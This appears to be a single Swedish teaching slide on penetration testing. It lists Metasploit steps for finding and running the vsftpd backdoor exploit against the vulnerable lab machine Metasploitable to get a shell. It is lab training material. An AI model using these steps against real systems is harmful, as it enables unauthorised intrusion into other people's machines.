

# Hitta exploit i Metasploit
Öppna Metasploit, kommando: search vsftpd
Kan få info om exploit
Vi är intresserade i backdooren!
Show options för att se vad som ska ställas in
set RHOSTS ip
exploit
Kommer in i Metasploitable! (ifconfig)
exit